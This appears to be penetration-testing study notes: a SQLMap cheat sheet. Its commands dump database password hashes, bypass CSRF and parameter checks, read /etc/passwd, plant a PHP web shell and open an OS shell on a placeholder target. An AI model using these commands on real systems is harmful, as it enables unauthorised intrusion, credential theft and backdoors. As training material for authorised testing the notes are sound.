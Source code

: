 ## Searching for Data
When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:


`sqlmap -u "http://www.example.com/?id=1" --search -T user`

## DB Users Password Enumeration & Cracking
`sqlmap -u "http://www.example.com/?id=1" --passwords --batch` : `--password` flag is used to dump the content table with database-specific credentials.

## CSRF
```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass
```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

## Calculated Value Bypass
```shell-session
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```


## OS Exploitation
Command to read file : `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

Checking for DBA Privileges : `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`

Reading Local Files :`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

Create a PHP Payload and then use this command to write that payload or Backdoor into the Server : `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`
To execute command, we can use the command : `curl http://www.example.com/shell.php?cmd=ls+-la`

To get OS Command Shell : `sqlmap -u "http://www.example.com/?id=1" --os-shell`

Error based SQL Injection : `sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E`

